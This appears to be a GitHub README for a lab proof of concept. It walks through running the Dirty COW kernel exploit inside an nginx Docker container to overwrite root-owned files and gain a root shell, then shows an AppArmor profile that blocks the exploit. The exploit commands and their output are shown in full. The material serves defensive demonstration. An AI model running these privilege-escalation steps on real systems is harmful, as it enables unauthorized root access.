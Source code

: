 # Docker Monitoring Logging and Alerting POC

```
Prerequisites:
- git installed

```

## What the POC entails and why

First let's start with the why ? This POC is going to use the [`dirtyc0w`](https://dirtycow.ninja/) kernel [`exploit`](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) to do privilege escalation inside the standard [`nginx`](https://hub.docker.com/_/nginx/) image. 

The only modifications
to the image I made is added a non root user lovingly called hacker to the exploit files. To see the make up of the image please see the [`Dockerfile`](https://github.com/scotty-c/dirty-cow-poc/blob/master/dirtyc0w/Dockerfile). Now for the most important part of the POC, how to mitigate the attack without patching with an [`AppArmor`](https://docs.docker.com/engine/security/apparmor/) profile. Showing the importance of correct container security. With a modified version of the exploit I have been able to escape the container. I did not want to open source this as it is malicious, but the same AppArmor profile was also able to mitigate that vulnerability without any changes.  

To build the environment we will build a Vagrant box that is running a Ubuntu 16.04 server, with kernel version 4.4.0-21-generic.This is to mimic a normal server running in either a cloud environment or bare metal.
On the server we will install the latest version of Docker (1.12.3) and set the daemon with the following configuration ` -H tcp://127.0.0.1:4243 -H unix:///var/run/docker.sock --ip-forward=true --iptables=true --ip-masq=true\">>/etc/default/docker` These are some default security settings that make sure the daemon is not accessible outside the host etc. Then we copy the [`AppArmor profile`](https://github.com/scotty-c/dirty-cow-poc/blob/master/nginx-docker) to the host OS in the following location `/etc/apparmor.d/containers/docker-nginx` We will run `apparmor_parser ` to make sure we have a valid profile. We will then build the image with a standard Docker build command `docker build -t scottyc/dirtyc0w .` Then run up our container first container without AppArmor with the following command `docker run -p 80:80 -d --name nginx scottyc/dirtyc0w` we will then run the exploits with the user hacker we created in the Docker image and we will firstly write to a file root owns as the user hacker then we will gain root access. We will then kill that container and from the very same image we will spawn a second container using the following command `docker run --security-opt "apparmor=docker-nginx" -p 80:80 -d --name nginx scottyc/dirtyc0w`. This time we will apply our AppArmor profile that will stop the exploits from working. 

# How to use

To make this as simple as possible I have automated most of the heavy lifting leaving the user to run only a few command. To run the POC please follow the follwoing instructions. 

Firstly 
``
git clone xxxx && cd xxxx
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it, either by vagrant ssh or vagrant putty. The latter uses the vagrant's putty plugin 
```
vagrant putty
```
change to the root user
```
sudo -i
```
The first container should be running as part of the build process, we can check this with
```
docker ps
```
You should get something like
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                         NAMES
db86f1c04483        scottyc/dirtyc0w    "nginx -g 'daemon off"   22 seconds ago      Up 19 seconds       0.0.0.0:80->80/tcp, 443/tcp   nginx
```
Now we can log on as the hacker 
```
docker exec -it -u hacker nginx bash
```
In the directory we are logged into we have the following files
```
drwxrwxrwt  2 root root  4096 Nov  7 11:10 .
drwxr-xr-x 41 root root  4096 Nov  7 11:10 ..
-rwxr-xr-x  1 root root 11496 Nov  7 04:52 cowroot
-rwxr-xr-x  1 root root  9880 Nov  7 04:52 dirtyc0w
-r-----r--  1 root root    32 Nov  7 02:28 foo
```
If we cat the file `foo` we see
```
this content is created by root
```
We will now exploit the file `foo`
```
./dirtyc0w foo hacker-was-here
```
It will print out the following to the terminal
```
mmap 7fd0facf4000

madvise 0

procselfmem 1500000000
```
Then we will cat `foo` again
```
hacker-was-here created by root
```
check the permissions again
```
drwxrwxrwt  2 root root  4096 Nov  7 11:10 .
drwxr-xr-x 41 root root  4096 Nov  7 11:10 ..
-rwxr-xr-x  1 root root 11496 Nov  7 04:52 cowroot
-rwxr-xr-x  1 root root  9880 Nov  7 04:52 dirtyc0w
-r-----r--  1 root root    32 Nov  7 02:28 foo
```

The permissions have not changed. Now let's gain root access 
```
./cowroot
```
It will print the following 
```
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 54192
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
```

You will have root access to the container

Now exit the container with `exit` and `exit` again. Then remove it with `docker rm -f nginx`

Now let's run our secure container
```
docker run --security-opt "apparmor=docker-nginx" -p 80:80 -d --name nginx scottyc/dirtyc0w
```
again we will run
```
docker exec -it -u hacker nginx bash
```
Then run the exploits `./dirtyc0w foo hacker-was-here` and `./cowroot` The files will run but no exploits. For fun try to `ping 8.8.8.8` 


# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`

